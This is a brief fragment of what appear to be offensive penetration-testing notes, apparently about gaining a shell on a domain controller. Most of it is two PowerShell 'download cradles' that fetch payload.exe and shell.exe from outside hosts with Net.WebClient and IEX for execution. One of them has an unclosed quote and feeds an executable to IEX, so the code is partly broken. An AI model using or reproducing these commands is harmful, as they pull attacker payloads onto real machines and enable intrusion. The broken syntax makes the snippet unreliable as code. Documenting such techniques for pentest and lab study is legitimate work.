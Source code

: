 > now we should have a shell from the DC

### download cradles used
```powershell
powershell "iex (New-Object Net.WebClient).DownloadFile('http://10.100.11.101:8000/payload.exe', 'C:\Windows\Temp\payload.exe')"

powershell "IEX (New-Object Net.WebClient).DownloadString('http://175.13.80.5:8000/shell.exe')
```



